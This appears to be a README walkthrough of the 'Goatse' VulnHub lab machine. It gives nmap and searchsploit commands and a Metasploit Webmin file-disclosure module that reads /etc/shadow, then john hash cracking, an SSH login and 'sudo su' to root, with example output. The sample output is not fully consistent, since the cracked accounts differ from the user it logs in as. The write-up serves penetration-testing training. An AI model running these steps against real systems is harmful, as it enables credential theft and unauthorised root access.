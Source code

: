 # Goatse Walkthrough - VulnHub

This is a comprehensive walkthrough of the "Goatse" VulnHub machine. The guide is designed to help users explore vulnerabilities, exploit them, and gain root access. It serves as an educational resource for learning penetration testing techniques.

---

## Description

**Goatse** is an intermediate-level VulnHub machine that challenges users with tasks ranging from reconnaissance and enumeration to exploitation and privilege escalation. This guide details the steps to achieve root access.

---

## Requirements

- Virtualization software (e.g., VirtualBox, VMware)
- A penetration testing OS (e.g., Kali Linux)
- Basic knowledge of Linux commands
- Networking tools: `nmap`, `netcat`, `gobuster`, etc.

---

## Initial Setup

1. Download the Goatse VM from [VulnHub](https://www.vulnhub.com/).
2. Import the VM into your virtualization software.
3. Ensure the VM is on the same network as your attacking machine.
4. Boot the VM and determine its IP address using tools like `netdiscover`.

---

## Step 1: Reconnaissance

### Identify the Target IP

Discover the target's IP address using `nmap`:

```bash
nmap 192.168.48.1/24 -sV
```

Example output:

```plaintext
Nmap scan report for 192.168.48.160
Host is up (0.0016s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp
22/tcp    open  ssh         OpenSSH 3.5p1 (protocol 1.99)
25/tcp    open  smtp?
53/tcp    open  domain      ISC BIND 8.2.2-REL
80/tcp    open  http        Apache httpd 1.3.31 ((Unix))
587/tcp   open  submission?
631/tcp   open  ipp         CUPS 1.1
3306/tcp  open  mysql       MySQL (unauthorized)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
```

---

## Step 2: Enumeration

### Vulnerability Discovery

The `nmap` scan reveals a service running on port 10000 (Webmin). Search for exploits using `searchsploit`:

```bash
searchsploit webmin
```

Example output:

```plaintext
Webmin 1.920 - Remote Code Execution
Webmin < 1.290 - Arbitrary File Disclosure
Webmin 1.580 - Remote Command Execution (Metasploit)
```

---

## Step 3: Exploitation

### Using Metasploit

Launch Metasploit and search for Webmin exploits:

```bash
msfconsole
search webmin
```

Select and configure an exploit module:

```bash
use exploit/linux/http/webmin_file_disclosure
set rhosts 192.168.48.160
set rpath /etc/shadow
run
```

Example output:

```plaintext
[*] Running module against 192.168.48.160
[*] Attempting to retrieve /etc/shadow...
root:$1$k6V/lmUF$n2iBfemYg/IsVRyjqopr3.
...
```

---

## Step 4: Cracking Password Hashes

Save the retrieved hashes to a file and use `john` to crack them:

```bash
john --wordlist=/path/to/rockyou.txt hashes.txt
```

Example cracked passwords:

```plaintext
root:password123
guest:guest123
```

---

## Step 5: Privilege Escalation

### SSH Access

Use the cracked credentials to log in via SSH:

```bash
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa goatse@192.168.48.160
```

After gaining access, escalate to root using `sudo`:

```bash
sudo su
```

---

## Conclusion

This walkthrough illustrates the process of exploiting the Goatse VM, from reconnaissance to achieving root access. Key takeaways include using tools like `nmap`, `searchsploit`, Metasploit, and `john` for effective penetration testing.

---

**Disclaimer:** This guide is for educational purposes only. Do not test systems without explicit authorization.

